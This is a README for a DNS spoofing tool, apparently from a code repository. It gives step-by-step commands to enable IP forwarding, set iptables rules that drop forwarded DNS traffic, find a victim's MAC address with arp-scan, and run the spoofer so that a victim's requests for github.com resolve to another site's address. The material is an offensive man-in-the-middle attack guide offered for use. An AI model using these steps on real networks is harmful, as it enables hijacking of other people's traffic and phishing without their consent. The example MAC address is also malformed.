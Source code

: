 # DNS Spoofer

## How to run

### 1. Enable ip forwarding

```sh
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -p udp --sport 53 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR VICTIMS_MAC
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP".
To get victim's mac address, run "arp-scan --localnet".

#### Example:

If your interface is wlo1, your gateway is 192.168.0.1 and victim's MAC is a8:44:12:13:g2:1b then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 github.com guthib.com a8:44:12:13:g2:1b
```

This will make it so that all DNS requests asking for github.com will instead ask for ip addres of guthib.com.
